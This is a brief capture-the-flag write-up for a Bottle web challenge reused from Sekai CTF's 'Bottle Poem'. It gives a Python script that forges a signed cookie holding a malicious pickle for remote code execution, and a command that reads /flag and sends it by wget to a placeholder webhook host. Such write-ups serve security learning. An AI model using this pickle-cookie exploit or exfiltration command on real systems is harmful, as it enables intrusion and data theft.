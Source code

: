 This one was a copied challenge from Sekai CTF (Bottle Poem).

Solution:
https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/bottle-poem/solution

Script to get RCE:
```
#!/usr/bin/env python3

from bottle import response
import sys

command = sys.argv[1]

class PickleRce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

response.set_cookie('name', {'name': 'admin', 'v': PickleRce()}, secret="trrrrrrrrrrrrryyyyyyyyyyyharddddddddd")
print(f'Cookie: {response.headerlist[1][1]}')
```

To get flag:
`python3 solution-poems.py 'wget webhooklinkhere/?c=`/flag|base64`'`
